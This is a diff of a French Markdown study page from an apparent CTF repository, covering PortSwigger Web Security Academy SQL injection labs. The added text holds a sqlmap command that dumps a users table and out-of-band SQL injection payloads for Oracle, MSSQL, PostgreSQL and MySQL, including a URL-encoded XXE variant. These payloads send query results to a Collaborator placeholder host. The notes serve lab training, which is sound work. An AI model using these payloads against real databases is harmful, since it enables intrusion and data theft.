

Before and after one commit to illumdir/CTF, a Markdown page: BurpSuite_Cert.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/BurpSuite_Cert.md
+++ b/BurpSuite_Cert.md
@@ -82,11 +82,44 @@
 
     Ca marche mais l'exercice veut un delay de 10sec pour une base postgresql : `TrackingId=33iPOvvWyVfcT3Di' || pg_sleep(10)--`
 
-- [ ] Blind SQL injection with time delays and information retrieval
+- [X] Blind SQL injection with time delays and information retrieval
+
+    `sqlmap -u https://0a350086042c640081e0d44d00c70068.web-security-academy.net/ --level 3 --cookie='TrackingId=oCa0SUxSuv7kOdtU; session=DMHLaGLDeWDTGZwbjdwQ2PieyYmuEUUg' --param-filter='COOKIE' -D public -T users --dump`
 
 
+- [X] Blind SQL injection with out-of-band interaction
 
-- [ ] Blind SQL injection with out-of-band interaction
+    Il faut BurpSuite Professional
+
+    On active le "Collaborator"
+
+    Payload :
+
+        ```Oracle 	SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://LINK-COLLABORATOR/"> %remote;]>'),'/l') FROM dual
+            Microsoft 	declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')
+            PostgreSQL 	create OR replace function f() returns void as $$
+            declare c text;
+            declare p text;
+            begin
+            SELECT into p (SELECT YOUR-QUERY-HERE);
+            c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';
+            execute c;
+            END;
+            $$ language plpgsql security definer;
+            SELECT f();
+            MySQL 	The following technique works on Windows only:
+            SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
+        ```
+
+    On colle le lien "Collaborator" :
+
+    ``` '|| (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://LINK-COLLABORATOR/"> %remote;]>'),'/l') FROM dual)--```
+
+    On encore URL
+
+    ```
+    '||+(SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//LINK-COLLABORATOR/">+%25remote%3b]>'),'/l')+FROM+dual)--
+    ```
 
 - [ ] Blind SQL injection with out-of-band data exfiltration
 
````
